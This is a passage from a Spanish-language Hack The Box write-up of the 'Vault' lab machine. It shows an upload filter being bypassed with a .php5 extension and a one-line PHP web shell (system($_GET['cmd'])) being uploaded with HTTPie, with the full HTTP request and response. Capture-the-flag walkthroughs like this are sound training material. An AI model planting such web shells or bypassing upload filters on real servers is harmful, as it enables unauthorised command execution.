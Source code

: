 ``` html
</html>
```

Tendremos un mensaje de **sorry that file type is not allowed** ):

Probablemente se trate de algún filtro, por lo que revisando la [mágica documentación](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf), podremos ver que hay otras extensiones para php, como php5:

``` html
xbytemx@laptop:~/htb/vault$ printf '<?php system($_GET["cmd"]); ?>' > dgdfgdfgdfgd.php5
xbytemx@laptop:~/htb/vault$ http -v -f POST http://10.10.10.109/sparklays/design/changelogo.php file@dgdfgdfgdfgd.php5 submit="upload file"
POST /sparklays/design/changelogo.php HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 281
Content-Type: multipart/form-data; boundary=8b2205f86044aa6650434c4bcb1c853b
Host: 10.10.10.109
User-Agent: HTTPie/0.9.8

--8b2205f86044aa6650434c4bcb1c853b
Content-Disposition: form-data; name="submit"

upload file
--8b2205f86044aa6650434c4bcb1c853b
Content-Disposition: form-data; name="file"; filename="dgdfgdfgdfgd.php5"

<?php system($_GET["cmd"]); ?>
--8b2205f86044aa6650434c4bcb1c853b--

HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 334
Content-Type: text/html; charset=UTF-8
Date: Sun, 17 Mar 2019 07:41:14 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding

The file was uploaded successfully<br><br><!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Upload Your File</title>
</head>

<body>
<div id="container">
	<form enctype="multipart/form-data" action="" method="post">
        <label for="file">Choose a file to upload:</label>
        <input id="file" type="file" name="file" /><br />
        <input type="submit" value="upload file" name="submit" />

	</form>
</div>
</body>
</html>
```

